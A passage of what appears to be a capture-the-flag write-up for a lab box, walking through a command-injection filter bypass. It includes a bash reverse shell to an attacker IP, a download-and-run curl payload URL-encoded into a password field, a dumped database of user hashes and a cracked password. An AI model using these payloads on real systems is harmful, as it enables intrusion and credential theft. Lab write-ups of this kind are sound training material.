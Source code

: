 Did not work as we have used a blacklisted character ‘$’. 

Anther way around this is to create a file that has the reverse shell:

```bash
bash -i >& /dev/tcp/10.10.16.2/4444 0>&1
```

Now host the file on a python server:

```bash
python3 -m http.server 8001
```

And now our original payload is:

```bash
payload:
curl -o /tmp/shell.sh http://10.10.16.2:8001/shell.sh 
bash /tmp/shell.sh
```

Our encoded is:

```bash
password=hello%0acurl%09-o%09/tmp/shell.sh%09http://10.10.16.2:8001/shell.sh%0abash%09/tmp/shell.sh&backup=
```

We now have shell:

![image.png](Attack%20Path%201d4068bbc57d80fe8c30e840fd3b6b4c/image%2013.png)

Navigating around, we find a db at nocturnal_database dir:

Let’s attempt to dump the db:

```bash
sqlite3 nocturnal_database.db .dump
```

We find all files and users on the web:

```bash
INSERT INTO users VALUES(1,'admin','d725aeba143f575736b07e045d8ceebb');
INSERT INTO users VALUES(2,'amanda','df8b20aa0c935023f99ea58358fb63c4');
INSERT INTO users VALUES(4,'tobias','55c82b1ccd55ab219b3b109b07d5061d');
INSERT INTO users VALUES(6,'kavi','f38cde1654b39fea2bd4f72f1ae4cdda');
INSERT INTO users VALUES(7,'e0Al5','101ad4543a96a7fd84908fd0d802e7db');
INSERT INTO users VALUES(8,'bob','8bd118ba5c79b5735f959f5129c4313c');
INSERT INTO users VALUES(9,'smithy','5d93ceb70e2bf5daa84ec3d0cd2c731a');

```

Looks like simple hash. Let’s use crackstation to see if admin or tobias is crackable and whether the password is reused.

```bash
tobias:slowmotionapocalypse
```
